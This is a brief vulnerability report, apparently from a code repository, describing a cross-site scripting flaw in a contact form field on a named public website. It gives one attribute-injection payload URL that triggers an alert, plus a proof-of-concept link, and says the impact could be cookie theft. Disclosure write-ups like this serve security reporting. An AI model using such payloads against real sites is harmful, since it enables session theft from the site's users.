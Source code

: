 # Vulnerability type:
##  xss
# Domain :[yououo.atwebpages.com](http://yououo.atwebpages.com)
# How:
  Xss vulnerability in user input 
# infected tags :
`<input type="text" name="contact" class="form-control" id="validationCustom05" placeholder="Facebook link or Whatsapp link" required>
  `  
#   payloads:
1. http://yououo.atwebpages.com/"onclick="alert('habibi')
# exploitablity :
Injecting the attribute
# Impact :
Stealing cookies or hacking the browser

# State :
Under working
# POC
http://yououo.atwebpages.com/Xss.php 
----

